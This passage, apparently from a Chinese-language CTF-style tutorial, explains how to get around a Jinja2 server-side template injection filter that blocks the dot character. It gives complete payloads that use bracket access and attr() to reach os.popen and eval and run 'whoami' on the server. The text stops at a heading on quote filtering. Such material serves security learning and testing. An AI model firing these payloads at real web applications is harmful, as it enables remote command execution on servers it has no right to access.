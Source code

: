 过滤了`.`

在 python 中，可用以下表示法可用于访问对象的属性

```
{{().__class__}}
{{()["__class__"]}}
{{()|attr("__class__")}}
{{getattr('',"__class__")}}
```

也就是说我们可以通过`[]`，`attr()`，`getattr()`来绕过点

*   使用`[]`绕过
    

使用访问字典的方式来访问函数或者类等，下面两行是等价的

```
{{().__class__}}
{{()['__class__']}}
```

以此，我们可以构造 payload 如下

```
{{()['__class__']['__base__']['__subclasses__']()[433]['__init__']['__globals__']['popen']('whoami')['read']()}}
```

*   使用`attr()`绕过
    

使用原生 JinJa2 的函数`attr()`，以下两行是等价的

```
{{().__class__}}
{{()|attr('__class__')}}
```

以此，我们可以构造 payload 如下

```
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__getitem__')(65)|attr('__init__')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('eval')('__import__("os").popen("whoami").read()')}}
```

*   使用`getattr()`绕过
    

这种方法有时候由于环境问题不一定可行，会报错`'getattr' is undefined`，所以优先使用以上两种

```
Python 3.7.8
>>> ().__class__
<class 'tuple'>
>>> getattr((),"__class__")
<class 'tuple'>
```

### 过滤引号
